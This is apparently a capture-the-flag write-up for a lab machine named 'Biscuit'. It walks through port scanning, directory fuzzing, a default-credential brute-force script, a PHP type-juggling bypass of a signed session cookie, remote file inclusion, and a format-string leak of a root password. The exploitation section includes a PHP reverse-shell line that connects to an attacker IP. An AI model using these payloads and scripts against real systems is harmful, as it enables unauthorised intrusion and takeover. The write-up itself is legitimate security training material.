








# Biscuit


## Recon
In the beginning, I used `nmap` with the following parameters. I found only ports 22, 80, and 111 open (it appears to be a web application in PHP running on Linux).
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ sudo nmap 172.16.5.90 -Pn -sSVC -T5

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a7:48:17:3c:48:3f:27:f2:c7:be:eb:56:30:33:b5:5e (RSA)
|   256 0b:8d:71:5d:94:d3:be:7e:fc:99:84:80:3d:6d:6d:41 (ECDSA)
|_  256 35:f4:48:e3:50:d1:ba:88:fd:a3:47:31:bd:af:31:9e (ED25519)
80/tcp  open  http    Apache httpd 2.4.48 (() PHP/7.4.19)
|_http-server-header: Apache/2.4.48 () PHP/7.4.19
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
```

First, I performed fuzzing on the web application using `ffuf` and discovered a directory named `class`.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $ffuf -u http://172.16.5.90/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 100 -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.5.90/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

class                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 157ms]
.                       [Status: 200, Size: 6773, Words: 862, Lines: 301, Duration: 151ms]
```

Upon accessing the application, I encountered a login page at the index.


So, I decided to verify the `/class` path and found something. This directory was exposed with a file named `Auth.class.php`. I tried to access the file to view its source code, but nothing happened.


I also tried to discover other paths and files, but I was unsuccessful.
## Exploitation
Here, we have many vectors to explore. So, I decided to start with the web application. The first thing that came to mind was to explore the request using Type Juggling, as the backend is running PHP.
```
POST / HTTP/1.1
Host: 172.16.2.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://172.16.2.123
Connection: keep-alive
Referer: http://172.16.2.123/
Cookie: PHPSESSID=hj59tek1le91eot9i0j4gh9icp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=teste&password=teste
```

Here, I tried modifying the parameters `username` and `password` to create a vector: `username[]` and `password[]`, but I didn’t succeed. Refs: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md), [PHP Type Juggling Vulnerability](https://medium.com/@abdelrahman0x01/php-type-juggling-vulnerability-768bca4d8b3b) and [PHP Magic Tricks: Type Juggling](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20loose%20comparison%20-%20Type%20Juggling%20-%20OWASP.pdf).

I tried SQL Injection using `ghauri` and `sqlmap`, but the application wasn't vulnerable to SQLi.

The other thing I tried was a brute force attack to check if there were default credentials on the web application. I wrote a `python script` to do this. I used the following wordlists: for usernames, [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt), and for passwords, [default-passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.txt), both from the SecLists repo.
```python
import requests
from concurrent.futures import ThreadPoolExecutor

user_file = '/usr/share/seclists/Usernames/top-usernames-shortlist.txt'
pass_file = '/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt'
url = 'http://172.16.5.90'

def attempt_login(user, passwd):
    response = requests.post(url, data={'username': user, 'password': passwd})
    if (len(response.text) != 6773) and (len(response.text) != 6905):
        print(f'User {user} and password {passwd} is correct')

def main():
    users = [line.strip() for line in open(user_file, 'r')]
    passwords = [line.strip() for line in open(pass_file, 'r')]

    with ThreadPoolExecutor(max_workers=1000) as executor:
        for user in users:
            for passwd in passwords:
                executor.submit(attempt_login, user, passwd)

if __name__ == '__main__':
    main()
```

So, we found the default credentials: `guest:guest`. After logging in, we encountered the following page, which did not have any modules or functions to explore.


But when we checked the `storage` section, we found a `JWT session cookie`.
`eyJobWFjIjoiNDg5OWM3MTIxNWEzMDdlZGUwMjkyYjY3MGRhNDE5NTkiLCJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0=`

When we decode it with Base64, we get the following content:
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $echo 'eyJobWFjIjoiNDg5OWM3MTIxNWEzMDdlZGUwMjkyYjY3MGRhNDE5NTkiLCJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0=' | base64 -d
{"hmac":"4899c71215a307ede0292b670da41959","username":"guest","expiration":1735246361}
```

```json
{"hmac":"4899c71215a307ede0292b670da41959","username":"guest","expiration":1735246361}
```

Here, we have an HMAC to sign and validate the user `guest`. Ref: [JSON Web Token (JWT) Signing Algorithms Overview](https://auth0.com/blog/json-web-token-signing-algorithms-overview/). What happens if I try to change the `username` or `HMAC`?
```bash
echo '{"hmac":"4899c71215a307ede0292b670da41959","username":0,"expiration":1735246361}' | base64

eyJobWFjIjoiNDg5OWM3MTIxNWEzMDdlZGUwMjkyYjY3MGRhNDE5NTkiLCJ1c2VybmFtZSI6MCwi ZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0K
```

Change the value of the session cookie and send the request again.

We have an error in our application with the following exception and the first flag: `Biscuit Security Exception, you've been blocked due to cookie tampering. Stop or your IP address will be banned!`.


We can see that the request passes through `Auth.class.php`. Now, we need to test the change on the `HMAC`.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $echo '{"hmac":0,"username":0,"expiration":1735246361}' | base64

eyJobWFjIjowLCJ1c2VybmFtZSI6MCwiZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0K
```

When we made the request, the application returned a warning and an error:
```
Warning: require_once(0.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 64

Fatal error: require_once(): Failed opening required '0.php' (include_path='.:/usr/share/pear:/usr/share/php') in /var/www/html/index.php on line 64
```


Here, we have a Type Juggling issue in the session cookie with the `hmac` parameter. After testing, we found a value that allows us to bypass the validation. We need to set `true` in the `hmac` parameter.

We have a method inside `Auth_class.php` with `require_once(any_php_file.php)`. We can exploit this because it's essentially similar to the `include()` method in PHP. So, we need to pass our PHP shell file to `require_once`. Refs: [function.require-once.php](https://www.php.net/manual/en/function.require-once.php), [function.include.php](https://www.php.net/manual/en/function.include.php), and [PHP require_once Keyword](https://www.w3schools.com/php/keyword_require_once.asp).

I created a PHP file called `shell.php` with:
```php
<?php system("/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'"); ?>
```

And now, we just need to create a local server with Python and send the request with the `hmac` parameter. Note: We don't need to add the PHP extension at the end of the URL.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $echo '{"hmac":true,"username":"http://10.0.10.235:8000/shell","expiration":1735246361}' | base64
eyJobWFjIjp0cnVlLCJ1c2VybmFtZSI6Imh0dHA6Ly8xMC4wLjEwLjIzNTo4MDAwL3NoZWxsIiwi
ZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0K
```

And voilà, we got a reverse shell! Now, we just need to get a full TTY.

## Post exploitation
Here, I found some things with `linpeas`, but I wasn't successful with that. So, I decided to perform the recon manually.

After a long time, I found a file (using `sudo -l`) that we have permissions to execute with `sudo`.
```bash
bash-4.2$ sudo -l
Matching Defaults entries for apache on ip-172-16-2-123:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User apache may run the following commands on ip-172-16-2-123:
    (ALL) NOPASSWD: /opt/biscuit_checker.py
```

Basically, this file just blocks an IP from a single file located at `/var/www/html/block.ips.db.json` and prints the list of blocked IPs.


Inside `block.ips.db.json`, we have a JSON file with a list of IPs to block. So, we can edit this file to add whatever we want. To test, I'll modify it to `{"ips":[test]}`.


After the test, we can see that there is a method called `ip_blocked()` inside `ip`. So, here I can access the internal attributes using a Format String vulnerability. Refs: [Can Python's string .format() be made safe for untrusted format strings?](https://stackoverflow.com/questions/15356649/can-pythons-string-format-be-made-safe-for-untrusted-format-strings), [Is format string still an issue in Python?](https://security.stackexchange.com/questions/269949/is-format-string-still-an-issue-in-python) and [Testing for Format String](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/13.3-Testing_for_Format_String)

`{"ips":["{ip.list_blocked.__globals__}"]}`

After modifying, we were able to access the internal variables and found the root password: `Th1s_1s_Sup3r_S3cr3t_R00t_K3y`.


Now, just switch to the root user and got the flag =D.